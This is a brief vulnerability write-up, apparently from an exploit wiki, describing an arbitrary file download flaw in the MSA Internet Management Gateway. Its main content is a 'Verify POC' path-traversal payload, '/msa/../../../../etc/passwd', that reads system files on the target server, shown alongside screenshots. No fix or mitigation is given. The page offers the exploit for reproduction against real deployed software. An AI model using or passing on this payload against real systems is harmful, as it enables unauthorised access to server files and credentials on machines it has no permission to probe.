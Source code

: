 # MSA Internet Management Gateway msa arbitrary file download vulnerability

## Vulnerability Description

MSA Internet Management Gateway has a vulnerability to read any file on the server.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">MSA Internet Management Gateway</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628845284708-f3f1c3ed-387c-49d6-a817-c1a8264fda2e.png)

Verify POC

```php
/msa/../../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628845414925-23bff98f-8fb8-4fee-aee6-cd981973b368.png)



If you gain something, just like it